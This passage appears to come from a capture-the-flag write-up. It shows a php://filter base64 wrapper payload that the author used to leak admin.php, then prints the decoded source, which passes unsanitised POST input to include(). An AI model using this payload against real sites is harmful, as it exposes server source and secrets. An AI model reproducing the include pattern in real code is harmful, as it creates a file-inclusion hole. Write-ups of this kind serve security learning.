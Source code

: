  Finally, i used php filter wrapper `php://filter/read=convert.base64-encode/resource=admin.php` and that worked ![Alt text](./assets/wrapper_admin.png)

 Decoding it, i got the PHP source-code
 ```php
 <?php
include('config.php');
?>

<!DOCTYPE html>
<html lang="en">
<head>

  <meta charset="utf-8">
  <title>Your page title here :)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <link rel="stylesheet" href="css/normalize.css">
  <link rel="stylesheet" href="css/skeleton.css">


</head>
<body>
<?php

if(isset($_SESSION['logged_in']) && $_SESSION['logged_in']===true && $_SESSION['username']==='admin') {

 if(!isset($_POST['url']))  {
  ?>
  <div class="container">
  <div class="row">
    <div class="one-half column" style="margin-top: 25%">
      <h4>Test url</h4>
      <form action="admin.php" method="POST">
      <div class="six columns"> <label>url</label>
      <input type="text" name="url" placeholder="url"></div>
      <div><input name="submit" type="submit"></div>
      </form>
      </div>
  </div>
</div>
<?php
 } else {

  include($_POST['url']);
 ```